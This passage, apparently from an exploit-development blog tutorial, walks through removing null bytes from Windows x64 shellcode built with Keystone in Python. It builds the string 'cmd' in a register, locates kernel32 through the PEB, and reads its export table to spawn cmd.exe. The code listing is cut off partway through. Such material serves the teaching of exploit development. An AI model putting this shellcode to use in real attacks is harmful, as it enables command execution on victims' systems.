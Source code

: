 To make it clear, the same procedure is used for the string “cmd”.

```
# Push cmd.exe string to stack
# " mov rax, 0x6578652e646d63; "      # Load the hexadecimal representation of 'cmd.exe' into RAX (Null Bytes)

# Fix Null Byte
# Build the string 'cmd' in RAX

" xor rax, rax; "                   # Clear RAX again
" mov al, 0x64; "                   # Load 'd' into AL (0x64 in hexadecimal)
" shl rax, 8; "                     # Shift RAX left by 8 bits
" mov al, 0x6D; "                   # Load 'm' (0x6D in hexadecimal)
" shl rax, 8; "                     # Shift RAX left by 8 bits
" mov al, 0x63; "                   # Load 'c' (0x63 in hexadecimal)
" push rax; "                       # Push "cmd" onto the stack

" mov rcx, rsp; "                   # Set RCX to point to 'cmd.exe' on the stack, which will be lpApplicationName
```

The approach was to gradually decrease the number of null bytes produced by the script. Initially, changes were made to how registers are added and subtracted. Later, instead of using `rax`, we switched to `al` or `eax`, verifying that nothing was missed and that the shellcode still worked correctly. This process was performed until our shellcode could no longer be optimized.

It is checked again that nothing is broken and that the shellcode still works correctly.

<img src="{{ site.url }}{{ site.baseurl }}/images/2024-05-06_17-56.png" alt="">

### Final code after the fixes

```
import ctypes, struct
import os
import subprocess
from keystone import *
 
def main():
    SHELLCODE = (
        " start: "
        "   int3;"                          # Breakpoint
        # "  sub rsp, 0x208;"               # Free up space in the stack (Null Byte)
        "   add rsp, 0xfffffffffffffdf8;"   # Free up space in the stack (Fix)
        " locate_kernel32:"
        "   xor rcx, rcx;"                  # Null RCX content
        "   mov rax, gs:[rcx + 0x60];"      # +0x060 PEB
        "   mov rax, [rax + 0x18];"         # +0x018 PEB.Ldr
        "   mov rsi, [rax + 0x20];"         # +0x020 PEB.Ldr.InMemoryOrderModuleList
        "   lodsq;"                         # Loads qword from RSI into RAX
        "   xchg rax, rsi;"                 # Swap RAX & RSI
        "   lodsq;"                         # Loads qword from RSI into RAX
        "   mov rbx, [rax + 0x20];"         # RBX = Kernel32 base address
        "   mov r8, rbx; "                  # Copy Kernel32 base address to R8 register
        "   mov ebx, [rbx+0x3C];"           # Get offset to the PE header from the DOS header at offset 0x3C
        "   add rbx, r8; "                  # Calculate absolute address of PE header by adding base address of kernel32.dll
        # "   mov edx, [rbx+0x88];"         # Get Relative Virtual Address (RVA) of Export Address Table from PE header (Null Byte)
        # Fix below
        "   xor r12, r12;"                  # Zero out r12 to start fresh
        "   add r12, 0x88FFFFF;"            # Load r12 with a large number
        "   shr r12, 0x14;"                 # Right-shift r12 by 20 bits to get 0x88
        "   mov edx, [rbx+r12];"            # Move the value at rbx+0x88 into edx
```